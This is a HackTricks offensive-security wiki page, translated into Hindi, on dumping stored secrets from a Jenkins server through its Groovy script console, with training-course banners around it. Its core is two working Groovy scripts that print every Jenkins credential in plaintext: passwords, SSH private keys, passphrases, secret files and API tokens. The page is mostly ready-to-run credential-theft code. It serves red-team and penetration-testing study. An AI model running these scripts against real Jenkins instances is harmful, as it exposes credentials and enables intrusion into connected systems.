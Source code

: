 # Jenkins Dumping Secrets from Groovy

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
ध्यान दें कि ये स्क्रिप्ट केवल `credentials.xml` फ़ाइल के अंदर के रहस्यों को सूचीबद्ध करेंगी, लेकिन **बिल्ड कॉन्फ़िगरेशन फ़ाइलों** में भी **अधिक क्रेडेंशियल्स** हो सकते हैं।
{% endhint %}

आप `/script` में **Groovy Script कंसोल से सभी रहस्यों को डंप कर सकते हैं** इस कोड को चलाकर
```java
// From https://www.dennisotugo.com/how-to-view-all-jenkins-secrets-credentials/
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import org.jenkinsci.plugins.plaincredentials.StringCredentials
import org.jenkinsci.plugins.plaincredentials.impl.FileCredentialsImpl

def showRow = { credentialType, secretId, username = null, password = null, description = null ->
println("${credentialType} : ".padLeft(20) + secretId?.padRight(38)+" | " +username?.padRight(20)+" | " +password?.padRight(40) + " | " +description)
}

// set Credentials domain name (null means is it global)
domainName = null

credentialsStore = Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0]?.getStore()
domain = new Domain(domainName, null, Collections.<DomainSpecification>emptyList())

credentialsStore?.getCredentials(domain).each{
if(it instanceof UsernamePasswordCredentialsImpl)
showRow("user/password", it.id, it.username, it.password?.getPlainText(), it.description)
else if(it instanceof BasicSSHUserPrivateKey)
showRow("ssh priv key", it.id, it.passphrase?.getPlainText(), it.privateKeySource?.getPrivateKey()?.getPlainText(), it.description)
else if(it instanceof StringCredentials)
showRow("secret text", it.id, it.secret?.getPlainText(), '', it.description)
else if(it instanceof FileCredentialsImpl)
showRow("secret file", it.id, it.content?.text, '', it.description)
else
showRow("something else", it.id, '', '', '')
}

return
```
#### या यह:
```java
import java.nio.charset.StandardCharsets;
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
com.cloudbees.plugins.credentials.Credentials.class
)

for (c in creds) {
println(c.id)
if (c.properties.description) {
println("   description: " + c.description)
}
if (c.properties.username) {
println("   username: " + c.username)
}
if (c.properties.password) {
println("   password: " + c.password)
}
if (c.properties.passphrase) {
println("   passphrase: " + c.passphrase)
}
if (c.properties.secret) {
println("   secret: " + c.secret)
}
if (c.properties.secretBytes) {
println("    secretBytes: ")
println("\n" + new String(c.secretBytes.getPlainData(), StandardCharsets.UTF_8))
println("")
}
if (c.properties.privateKeySource) {
println("   privateKey: " + c.getPrivateKey())
}
if (c.properties.apiToken) {
println("   apiToken: " + c.apiToken)
}
if (c.properties.token) {
println("   token: " + c.token)
}
println("")
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
